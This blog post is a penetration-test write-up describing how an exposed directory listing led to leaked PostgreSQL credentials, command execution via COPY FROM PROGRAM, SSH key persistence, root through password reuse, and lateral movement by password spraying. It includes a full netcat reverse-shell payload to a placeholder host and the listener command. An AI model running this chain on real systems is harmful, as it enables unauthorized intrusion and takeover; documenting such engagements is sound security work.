In this blog, I will demonstrate how a simple **directory listing vulnerability** led to **full system compromise** during a penetration test.
## Prologue
> **"The best exploits are the ones that never feel like exploits at all."**  
> — *Mr. Robot*

I discovered that a web server was **exposing its directory contents**.<br />
<br />
Several configuration and compressed files were visible, indicating possible sensitive information leakage.
## Source Code Analysis
After downloading and analyzing the exposed files, I found a **PHP configuration file** containing **PostgreSQL database credentials**.<br />
<br />
## Database Connection
Using the extracted credentials, I connected to the PostgreSQL server and successfully authenticated.<br />
<br />
## PostgreSQL to Reverse Shell
After confirming access, I attempted to escalate this to **Remote Command Execution**.<br />
### Role Enumeration
First, I enumerated the database role.<br />
<br />
The user had **superuser privileges**, which was promising.
### Permission Enumeration
To enumerate detailed permissions, I used the following query:
```sql
SELECT 
      r.rolname, 
      r.rolsuper, 
      r.rolinherit,
      r.rolcreaterole,
      r.rolcreatedb,
      r.rolcanlogin,
      r.rolconnlimit, r.rolvaliduntil,
  ARRAY(SELECT b.rolname
        FROM pg_catalog.pg_auth_members m
        JOIN pg_catalog.pg_roles b ON (m.roleid = b.oid)
        WHERE m.member = r.oid) as memberof
, r.rolreplication
FROM pg_catalog.pg_roles r
ORDER BY 1;
```
<br />
The presence of the **pg_execute_server_program** privilege allowed OS-level command execution.
### Remote Code Execution
Using PostgreSQL’s `COPY FROM PROGRAM`, I executed a **reverse shell payload**
```bash
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 4444 >/tmp/f';
```
<br />
Listener setup:
```bash
nc -lnvp 4444
```

## SSH Connection
Port **22 (SSH)** was open on the target.<br />
<br />
I located the home directory of the *postgres* user<br />
<br />
Added my public key to `authorized_keys`<br />
<br />
Successfully logged in via SSH<br />
<br />
## Priviledge Escalation
While reviewing `/etc/passwd`, I noticed a system user whose credentials matched those found in the PHP file. Trying the same password worked.<br />
This user also had **sudo privileges**, allowing immediate **root shell access**<br />

## Lateral Movement
The compromised server resided in a **private Class B network**. I scanned the subnet for SSH using [Gill-Singh-A/Port-Scanner](https://github.com/Gill-Singh-A/Port-Scanner.git) and performed SSH password spraying using [Gill-Singh-A/SSH-Brute-Force](https://github.com/Gill-Singh-A/SSH-Brute-Force.git)<br />
This resulted in successful access to **two additional hosts**<br />

## Attack Path

## References
* [Command Execution with PostgreSQL Copy Command - Nairuz Abulhul](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)
